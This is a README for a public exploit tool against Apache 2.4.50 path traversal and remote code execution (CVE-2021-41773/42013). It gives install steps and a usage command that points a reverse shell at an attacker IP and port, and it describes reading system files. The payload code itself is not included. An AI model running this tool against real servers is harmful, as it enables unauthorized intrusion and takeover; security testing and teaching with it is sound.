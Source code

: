 # Apache-HTTP-Server-2.4.50-RCE

This tool is designed to test Apache servers for the CVE-2021-41773 / CVE-2021-42013 vulnerability. It is intended for educational purposes only and should be used responsibly on systems you have explicit permission to test.

## Installation:

### Clone the repository:
   ```bash
   git clone https://github.com/Zyx2440/Apache-HTTP-Server-2.4.50-RCE.git
```
### Go to the dir:
   ```bash
   cd Apache-HTTP-Server-2.4.50-RCE
```
### install The Requirements:
   ```bash
   pip3 install requests~=2.27.1 termcolor~=1.1.0
   ```
### or:
```bash
   pip3 install -r add_requirements.txt
   ```
### usage: 
   ```bash
   python3 50512.py target.txt -ip <YourIp> -p <ThePort>
   the text file should contain the url of the target
```

### Example:
```bash
python3 50512.py target.txt -ip 10.0.2.15 -port 4444
```
![apache](png/py.jpg)

### check the version of Apache and run exploit:

![apache](png/RunExploit.jpg)

### Remote Code Execution (RCE):

![apache](png/passwd.jpg)
   
# What the Script Does ???
   Apache Version Check: For each URL in the provided file, it checks whether the server is running Apache version 2.4.50.

### Exploit Testing:
   If the server is vulnerable: It attempts to exploit the server by sending payloads to either trigger directory traversal attacks or       execute code remotely.
   If CGI is enabled: It tries to inject a reverse shell payload to gain remote access.

# Warning !!!!!:
   For Educational Use Only: The script is intended for educational purposes to demonstrate how vulnerabilities can be tested and             exploited. Using this script against unauthorized targets is illegal and unethical.

### additionally info:
#### Original Author: calfcrusher@inventati.org
#### Modified by: Zyx2440
Purpose of modification: Added additional error handling and optimized the payload logic adn RCE and remove cve 
